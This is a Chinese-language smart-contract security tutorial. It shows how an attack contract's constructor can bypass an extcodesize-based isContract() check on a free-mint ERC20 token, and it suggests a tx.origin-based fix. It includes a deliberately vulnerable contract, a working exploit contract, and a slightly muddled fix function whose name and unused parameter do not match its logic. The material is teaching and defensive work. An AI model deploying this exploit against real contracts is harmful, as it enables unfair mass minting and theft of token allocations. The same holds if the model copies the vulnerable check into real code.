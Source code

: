 ```yaml
---
title: 绕过智能合约检测
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - contract-check
  - extcodesize
  - bytecode
  - eoa
  - free-mint
  - solidity
  - constructor-exploit
  - prevention
tags: [ Constructor, Security, 智能合约 ]
---
```


许多免费铸造的项目使用 `isContract()` 方法限制对外部账户（EOAs）的访问以及限制智能合约的交互。 此方法使用 `extcodesize` 来决定地址运行时 `bytecode` 长度。 如果大于零，则被视为智能合约；否则，它被视为EOA。

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

然而，由于在智能合约创建期间，运行时`bytecode`尚未存储在地址上，所以`bytecode`的长度为零，所以存在潜在的漏洞。 如果我们将逻辑存放在构造器中，我们可以借此绕过`isContract()`检查。

**利用漏洞的示例**

在下面的例子中，`FreemintERC20`合同使用`checkContract()`函数来防止智能合约执行它的`mintTokens()`函数，以防止自动大量铸造。 每次调用`mintTokens()`都会铸造100个通证。

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们创建一个智能合约用于攻击，并在构造器中多次调用`mintTokens()`代码：

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

在这个智能合约中，通过调用构造函数中的`mintTokens()`方法可以绕过`isContract()`检查，并铸造通证。 状态变量 `detectedAsContract` 在构造器中将被设置为`false`。 部署后，`runtime bytecode` 存储在智能合约中，并且 `extdesize > 0` , 因此当调用 `mintTokens()`时，`checkContract()` 会成功地阻止铸造。

**预防措施**

我们可以使用 `(tx.origin == msg.sender)` 来确定调用者是否是智能合约。 如果调用者是EOA，那么`tx.origin`和`msg.sender`将是相等的；如果他们不相等，则调用者是智能合约。

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```